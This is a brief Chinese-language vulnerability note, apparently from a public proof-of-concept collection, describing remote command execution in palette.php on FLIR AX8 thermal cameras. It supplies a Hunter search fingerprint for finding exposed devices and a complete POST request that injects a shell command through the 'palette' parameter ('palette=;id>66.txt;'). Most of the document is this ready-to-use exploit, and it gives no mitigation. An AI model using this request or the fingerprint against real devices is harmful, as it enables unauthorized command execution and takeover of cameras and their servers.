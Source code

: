 # FLIR-AX8热成像仪palette.php存在远程命令执行漏洞

FLIR-AX8热成像仪palette.php存在远程命令执行漏洞，允许攻击者在目标服务器上执行任意系统命令，可能导致服务器被完全控制、数据泄露或破坏，严重威胁系统安全。

## hunter

```javascript
web.icon=="f4370ff0b4763e18159cd7cdf36a4542"
```

## poc

```javascript
POST /palette.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ****
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

palette=;id>66.txt;
```

![image-20240927202542338](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409272025400.png)
